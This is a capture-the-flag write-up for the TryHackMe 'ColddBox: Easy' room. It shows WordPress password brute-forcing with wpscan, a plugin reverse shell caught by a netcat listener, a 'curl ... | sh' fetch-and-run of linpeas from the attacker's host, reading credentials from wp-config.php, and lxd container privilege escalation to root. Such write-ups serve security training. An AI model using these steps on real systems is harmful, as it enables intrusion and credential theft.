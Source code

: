  #  ColddBox: Easy
<https://tryhackme.com/room/colddboxeasy>
-------------------------
It is a cool box (literally). So lets start some Hacking …
So lets start with some nmap scan to enumerate which all ports are open.
```bash
$ sudo nmap -T4 -sV -A target > nmap_scan.txt 
```
<img src="https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/1.png" width="600">


So port 80 is open that I already knew by opening the ip in web browser.
Since it was a web page I began directory search to see is there any broken
access control.
```bash
$ sudo gobuster dirb -u target:80 --wordlist /usr/share/wordlists/dirb/small.txt -e -o dir.txt 
```
![2](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/2.png)

There is a ‘/hidden’ directory on the target that is accessible and gave
potential users on the target.

![3](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/3.png)

And since web page is made on wordpress and there is a login page, great
option to bruteforce wordpress login is using wpscan.

```bash
$ sudo wpscan --url http://target/wp-login.php -e u -P /usr/share/wordlist/rockyou.txt 
```
![4](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/4.png)

Bingo!!! we have a password for c0ldd user. After login we have an
admin dashboard.

Lest get a reverse shell on the target using WP plugin. I found this simple
reverse shell script on
<https://www.sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell>.

![5](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/5.png)

I started a netcat listener on my machine on port 8000 
```bash 
$ sudo nc -lvnp 8000 
```
and got a reverse shell by activating our plugin and found that www-data
user have very less permissions thus I enumerated the target using
[LinPEAS ]( https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS ).Download the linpeas.sh file form Github on your
machine,cd to the downloaded directory and start a simple python server on
your machine 
```bash 
$ python3 -m http.server 1234 
``` 
and on target run it using
```bash 
$ curl http://<attackbox_ip>:1234/linpeas.sh | sh 
```
This will directly
run the shell script on the target machine.

![6](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/6.png)

This gave away wp-config.php file that contained password of user _c0ldd_.
To su to _c0ldd_ user we need a stable shell, stablizing shell by this great
one-liner 
```bash 
$ pyhton3 -c ‘import pty;pty.spawn(“/bin/bash”)  $ su c0ldd 
```
and use password _cybersecurity_ to get access. Now cat the user.txt flag in
/home/c0ldd directory 
```bash 
$ cat /home/c0ldd/user.txt 
```

![7](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/7.png)

Hurray!! got the user flag.

##### Now lets get root access.

Linpeas enumeration also gave potential services, users that could be
exploited. Luckly lxd (container service) is present and accessible by _c0ldd_ user.

![8](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/8.png)

Lets exploit this service, Download the vulnerable container image using 
[alpine for lxd](https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml)
cd to download dir and start http server and transfer the file to target machine
using wget.

> Add the image :
```bash 
$ lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
$ lxc image list -- You can see your new imported image
```
> Create a container and add root path
```bash
$ lxc init alpine privesc -c security.privileged=true
$ lxc list 
$ lxc config device add privesc host-root disk source=/ path=/mnt/root
recursive=true
```
> Execute the container:
```bash
$ lxc start privesc
$ lxc exec privesc /bin/sh
```

As this container is mounted with /root directory we can access root.txt
inside it 
```bash 
$ cat /mnt/root/root.txt 
```

![9](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/9.png)

> With that the we rooted the box.
